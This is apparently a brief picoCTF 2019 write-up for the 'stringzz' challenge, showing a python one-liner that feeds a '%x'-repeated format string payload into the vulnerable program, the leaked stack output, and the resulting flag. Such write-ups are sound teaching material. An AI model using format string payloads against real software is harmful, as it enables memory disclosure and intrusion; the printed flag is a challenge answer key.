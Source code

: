 # stringzz
#### Use a format string to pwn this [program](https://2019shell1.picoctf.com/static/657830bdbb42e6aa00246c0dbdbfd871/vuln) and get a flag. Its also found in /problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010 on the shell server. [Source](https://2019shell1.picoctf.com/static/657830bdbb42e6aa00246c0dbdbfd871/vuln.c).

This is a simple [format string vulnerability](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf). An easy to solve this
would be to just try out every amount of '%x' until the program spits out the flag.

```
Supermac30@pico-2019-shell1:/problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010$ python -c 'print "%x"*36 + "%s"' |./vuln
input whatever string you want; then it will be printed back:

Now 
your input 
will be printed:

af7e0336b5660a6f9f7f710005660bfb4ff92f0485660a755575b25705660a995f7e0336b5660a731f7f710005660bfb4ff92f0685660a78e575b25705660a993f7e0181b5660a76af7f710005660bfb4ff92f0b85660a84d575b257080575b36905660a7aef7f71000f7f710000ff92f164f7f713fc5660bfb4ff92f16c78575b2570picoCTF{str1nG_CH3353_0814bc7c}
```

Flag: picoCTF{str1nG_CH3353_0814bc7c}
